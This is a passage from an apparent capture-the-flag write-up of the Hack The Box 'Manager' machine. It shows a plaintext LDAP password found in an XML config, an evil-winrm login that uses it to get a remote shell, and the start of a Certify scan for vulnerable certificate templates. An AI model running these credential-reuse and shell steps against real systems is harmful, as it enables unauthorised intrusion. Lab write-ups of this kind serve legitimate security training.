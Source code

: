 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>                               
```

We found an XML configuration file that has the password of `raven`.

Let's try connecting via `winrm`.

```shell
$ evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents> 
```

Great! We got access.

## **Privilege Escalation**

I did some local enumeration and used bloodhound but couldn't find anything.

### Certify

One thing we can check is the Certificate templates, we can do that using [certify.exe](https://github.com/GhostPack/Certify)

```terminal
*Evil-WinRM* PS C:\Users\Raven\Documents> .\certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0
'
[*] Action: Find certificate templates
```